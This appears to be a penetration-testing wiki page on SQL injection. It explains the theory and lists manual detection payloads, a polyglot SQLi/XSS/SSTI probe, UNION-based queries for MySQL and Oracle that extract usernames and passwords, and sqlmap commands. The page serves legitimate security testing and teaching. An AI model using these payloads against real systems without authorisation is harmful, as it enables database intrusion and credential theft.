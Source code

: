 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

{% hint style="info" %}
For every payload do not forget to try url encoding or others.
{% endhint %}

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)
{% endhint %}

The following payload is used for testing SQL injections, [XSS (Cross-Site Scripting)](xss.md) and [SSTI (Server-Side Template Injection)](../../web/inputs/ssti.md).

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

{% tabs %}
{% tab title="MySQL" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}

{% tab title="Oracle" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT banner,NULL from v$version --
```

3\. Find tables name:

```sql
' UNION SELECT table_name,NULL from all_tables --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}
{% endtabs %}

### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) (Python) or [SQLninja](https://github.com/xxgrunge/sqlninja) (Perl) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## Resources

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" %}
SQL injection cheatsheets (MSSQL, MySQL, Oracle SQL, Postgres SQL, ...)
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

{% embed url="https://github.com/Hakumarachi/Loose-Compare-Tables" %}
